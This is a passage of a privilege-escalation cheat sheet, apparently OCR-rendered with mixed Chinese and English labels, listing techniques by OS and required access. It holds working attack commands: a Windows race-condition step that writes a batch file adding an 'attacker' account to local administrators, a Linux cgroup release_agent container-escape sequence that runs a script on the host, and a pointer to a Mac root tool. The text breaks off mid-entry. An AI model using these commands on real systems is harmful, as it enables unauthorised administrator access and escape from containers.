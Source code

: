 ### **Dynamic Phishing**

域：Y/N

Local Admin: Yes

操作系统：Mac

类型：Phish

方法：

-   `https://github.com/thehappydinoa/rootOS`
-   `Python rootOS.py`

### **Race Conditions**

域：No

Local Admin: Yes

操作系统：Windows

类型：Race Condition

方法：

-   `echo “net localgroup administrators attacker /add” > C:\temp\not-evil.bat`
-   `tempracer.exe C:\ temp\*.bat`

### **Abusing usermode helper API**

域：No

Local Admin: Yes

操作系统：Linux

类型：Abusing Capabilities

方法：

```text
 d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
 mkdir -p $d/w; echo 1 > $d/w/notify_on_release
 t=`sed -n ‘s/.*\perdir=\([^,]*\).*/\1/p’ /etc/mtab`
 touch /o; echo $t/c > $d/release_agent
 echo “#!/bin/sh” > /c
 echo “ps > $t/o” >> /c
 chmod +x /c
 sh -c “echo 0 > $d/w/cgroup.procs”; sleep 1
 cat /o
```

### **Escape only with CAP\_SYS\_ADMIN capability**

域：No

Local Admin: Yes
